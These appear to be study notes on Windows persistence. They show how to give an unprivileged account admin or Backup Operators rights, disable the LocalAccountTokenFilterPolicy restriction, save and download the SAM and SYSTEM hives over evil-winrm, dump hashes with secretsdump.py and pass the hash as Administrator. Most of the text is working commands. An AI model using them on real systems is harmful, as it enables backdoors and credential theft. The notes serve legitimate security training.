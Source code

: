 # Unprivileged Accounts
Having an administrator's credential would be the easiest way to achieve persistence in a machine. However, it would be more likely to raise any flags, so we can manipulate unprivileged users, which normally won't be monitores as much as administrators and grant them administrative privileges. For this we will need to already have achieved an administrative account.
## Assign Group Memberships
For this, we need to have the password of the unprivileged account. The direct way to make an unprivileged user gain administrative privileges is to make it part of the `Administrators` group. We can easily do this
```powershell
net localgroup administrators unprivUser /add
```

If this looks too suspicious, we can use the `Backup Operators` group. 
```powershell
net localgroup "Backup Operators" unprivUser /add
```
Users in this group won't have administrative privileges but will be **allowed to read/write any file or registry key** on the system, ignoring any configured DACL. This would allow us to **copy the content of the SAM and SYSTEM registry hives**, which we can use to recover the password hashes for all the users, thus enabling us to escalate to any administrative account trivially.
Since this is an unprivileged account, it cannot RDP or WinRM back to the machine unless we add it to the `Remote Desktop Users` (RDP) or `Remote Management Users` (WinRM) groups
```powershell
net localgroup "Remote Management Users" unprivUser /add
```
Now, the User Account Control (UAC), implements a feature called `LocalAccountTokenFilterPolicy`, which strips any local account of its administrative privileges when logging in remotely. While we can elevate it through a GUI, we need to disable it if we are to use WinRM by changing the registry key to `1`
```powershell
reg add HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Policies\System /t REG_DWORD /v LocalAccountTokenFilterPolicy /d 1
```
Once this has been setup, we can use our backdoor by establishing a connection through [[Evil-WinRM]] 
```bash
evil-winrm -i IP -u unprivUser -p Password123
```
We then proceed to make a backup of SAM and SYSTEM files and download them to our attacker machine.
```WinRM
reg save hklm\system system.bak
reg save hklm\sam sam.bak
download system.bak
download sam.bak
```
With those files we can dump the password hashes for all users using `secretsdump.py` or other similar tools
```bash
python3 secretsdump.py -sam sam.bak -system system.bak LOCAL
```
And finally perform a Pass-the-Hash to connect to the target machine with administrator privileges
```bash
evil-winrm -i IP -u Administrator -h 1cea1d...daa3
```
